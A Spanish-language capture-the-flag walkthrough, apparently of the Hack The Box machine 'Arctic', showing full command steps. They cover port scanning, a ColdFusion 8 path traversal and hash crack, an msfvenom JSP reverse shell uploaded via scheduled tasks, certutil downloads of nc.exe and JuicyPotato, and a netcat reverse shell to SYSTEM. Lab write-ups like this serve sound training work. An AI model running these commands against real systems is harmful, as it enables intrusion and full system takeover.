

# Arctic

## Reconocimiento

Empezamos con la fase de reconocimiento probando si tenemos conexión con la maquina enviando una traza **ICMP** con ping

```shell
> ping -c 1 10.10.10.11
PING 10.10.10.11 (10.10.10.11) 56(84) bytes of data.
64 bytes from 10.10.10.11: icmp_seq=1 ttl=127 time=105 ms

--- 10.10.10.11 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 104.825/104.825/104.825/0.000 ms
```

Tenemos conexión con la maquina entonces vamos a escanear todo el rango de puertos abiertos por el protocolo **TCP**

```shell
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.11

PORT      STATE SERVICE REASON
135/tcp   open  msrpc   syn-ack ttl 127
8500/tcp  open  fmtp    syn-ack ttl 127
49154/tcp open  unknown syn-ack ttl 127
```

De esos puertos encontrados vamos a escanear las versiones con **-sV** y con **-sC** vamos a enviar unos scripts básicos de reconocimiento

```shell
> nmap -sCV -p135,8500,49154 10.10.10.11

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Nmap no sabe lo que es el puerto **8500** porque puede ser que el servicio este tardando en responder&#x20;

### Puerto 8500 (http)

Después de un rato cargo y vemos que hay directory listing o sea que podemos ver los directorios y archivos del servidor en formato web

<div>

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

</div>

* En la ruta /administrador vemos que nos lleva a un panel de login de ADOBE COLDFUSION 8

<figure><figcaption></figcaption></figure>

#### Explotación Adobe Coldfusion 8

Buscamos vulnerabilidades asociadas al **ADOBE COLDFUSION 8** con **searchsploit**

```shell
> searchsploit ADOBE COLDFUSION
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                 | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                              | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                 | multiple/remote/16985.rb
Adobe ColdFusion 11 - LDAP Java Object Deserialization Remode Code  | windows/remote/50781.txt
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserializati | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload                       | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Site Scripting   | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities  | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution (RCE)                 | cfm/webapps/50057.py
Adobe ColdFusion 9 - Administrative Authentication Bypass           | windows/webapps/27755.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass (Metasplo | multiple/remote/30210.rb
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection     | multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metas | multiple/remote/24946.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query St | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizar | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog. | cfm/webapps/33168.txt
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Vemos que hay un directory path traversal que lo que hace es ir hasta la raíz del sistema windows y hacer un **LFI** que significa leer un archivo de la maquina. Y al parecer es un archivo que contiene la contraseña hasheada del usuario **admin**

* La crackeamos con https://crackstation.net

<figure><figcaption></figcaption></figure>

`2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` --> happyday

* Nos logeamos

<figure><figcaption></figcaption></figure>

* Subiremos una web-shell en jsp para ejecutar comandos

```shell
> cp /usr/share/SecLists/Web-Shells/JSP/simple-shell.jsp .
> ls
 simple-shell.jsp
```

* Crear un payload con msfvenom para enviarnos una reverse shell por netcat a nuestro equipo

```shell
> msfvenom -l payloads | grep jsp
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=<tu-ip> LPORT=<tu-puerto> -o <nombre>.jsp
Payload size: 1496 bytes
Saved as: rs.jsp
> ls
 rs.jsp
```

* Compartimos un servidor web con python

```shell
> python3 -m http.server 80
```

* Nos ponemos a la escucha con netcat para recibirla reverse shell

```shell
> rlwrap nc -lvnp <tu-puerto>
listening on [any] 4444 ...
```

* En el apartado de Debugging & Logging > Scheduled Tasks podemos crear tareas&#x20;

Crear una tarea donde pondremos nuestro servidor que compartimos con python y el nombre del **.jsp** para guardar-lo en la ruta `C:\ColdFusion8\wwwroot\CFIDE` y le damos a submit.

<figure><figcaption></figcaption></figure>

* Le damos al botón de run task

<figure><figcaption></figcaption></figure>

* Y si todo va bien deberíamos recibir una petición por **GET** en el servidor web de python y debería salir el archivo dentro del directorio CFIDE

<figure><figcaption></figcaption></figure>

* Lo abrimos y deberíamos de recibir la **reverse shell**

```shell
> rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.11] 49651
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

\> whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```

#### Escalada de Privilegios

Ahora solo faltaría elevar de privilegios al usuario **administador**

```shell
> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Vemos que el **SeImpersonatePrivilege** esta habilitado y como esta habilitado podemos abusar de el para ejecutar comandos de forma privilegiada con juicypotato(**https://github.com/ohpe/juicy-potato/releases/tag/v0.1**) y netcat

```shell
> mv /home/red/Descargas/JuicyPotato.exe .
> cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
> ls; python3 -m http.server 80
 JuicyPotato.exe   nc.exe   rs.jsp
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Nos descargamos el juicypotato y netcat de nuestro servidor web

```shell
\> cd \Windows\Temp

\> mkdir Red

\> cd red

\> certutil.exe -f -urlcache -split http://10.10.16.4/nc.exe nc.exe
****  Online  ****
  0000  ...
  6e00
CertUtil: -URLCache command completed successfully.

\> certutil.exe -f -urlcache -split http://10.10.16.4/JuicyPotato.exe JP.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.
\> .\JP.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port

Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

* Lo ejecutamos para enviarnos una reverse shell con el usuario administrador

```shell
\> .\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Red\nc.exe -e cmd <tu-ip> 4646"
```

```shell
> nc -lvnp 4646
listening on [any] 4646 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.11] 49878
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
